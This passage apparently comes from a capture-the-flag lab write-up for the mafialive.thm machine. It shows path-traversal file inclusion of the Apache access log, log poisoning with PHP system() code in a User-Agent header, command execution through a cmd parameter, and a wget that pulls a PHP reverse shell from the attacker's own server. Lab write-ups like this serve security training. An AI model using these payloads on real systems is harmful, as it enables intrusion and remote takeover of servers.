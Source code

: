 In the browser:

We know that the log files are usually located in `/var/log/apache2 or /var/log/httpd` depending on the os. lests try the 1st one.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//var//log//apache2//access.log
# grep for "dking" and its there.
```
{% endcode %}

**Alternatively we could use curl**:

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl 'http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log' -H 'User-Agent: <?php system($_GET['cmd']); ?>'
```
{% endcode %}

And we are able to read the access.log files.

<figure><img src=".gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

Time to execute cmds.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# i ran the "id" cmd in the browser.
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&cmd=id

# or use curl
curl 'http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=id'
```
{% endcode %}

### RCE

We have to upoad nishang php reverse shell to the server.

`python3 -m http.server 80` -  setup server hosting shell.php.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=wget%20http://10.18.88.214/shell.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>
